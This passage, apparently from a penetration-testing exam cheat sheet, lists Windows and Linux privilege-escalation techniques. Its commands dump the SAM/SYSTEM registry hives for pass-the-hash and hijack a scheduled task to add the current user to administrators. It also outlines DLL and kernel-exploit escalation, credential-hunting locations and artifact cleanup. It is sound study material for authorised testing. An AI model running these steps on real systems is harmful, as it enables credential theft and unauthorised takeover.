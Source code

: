 **SeBackupPrivilege → dump SAM/SYSTEM → PTH**
```cmd
reg save HKLM\SAM C:\Users\Public\SAM.backup
reg save HKLM\SYSTEM C:\Users\Public\SYSTEM.backup
# Extract hashes on Kali, then psexec.py with NTLM hash.
```

**Scheduled task hijack**
```cmd
echo net localgroup administrators %USERNAME% /add >> C:\Scripts\backup.bat
schtasks /Run /TN "NightlyBackup"
```

**DLL hijack (missing DLL in writable dir)**
```text
Compile malicious crypto.dll, drop to target path, restart service.
```

**Kernel LPE (only if needed)**
```text
Pick exploit matching build (e.g., MS16-032 for older systems). Risk: BSOD.
```

---

## 5) Credential Hunting Shortlist
- Linux: `/var/www`, `/etc/*conf*`, `.bash_history`, `.ssh/`, process args in `ps aux`, DB configs.  
- Windows: `unattend.xml`, app configs in `ProgramData`, Winlogon AutoAdminLogon, browser/RDP managers, `%APPDATA%` files.

---

## 6) Post‑Exploitation
- Grab proofs. Note commands and rationale.  
- Optional cleanup: remove droppers, restore paths/registry, delete created users, clear obvious artifacts. Avoid risky log wiping in exam.

---

## 7) Final Checklist
- [ ] whoami/id or whoami /all; OS version; quick wins noted.  
- [ ] Linux: sudo, SUID, cron, creds, groups, caps, NFS, kernel.  
- [ ] Windows: SeImpersonate, AlwaysInstallElevated, services, tasks, SeBackup, creds, kernel.  
- [ ] Chosen path executed; root/SYSTEM confirmed.  
- [ ] Proofs captured; steps recorded.
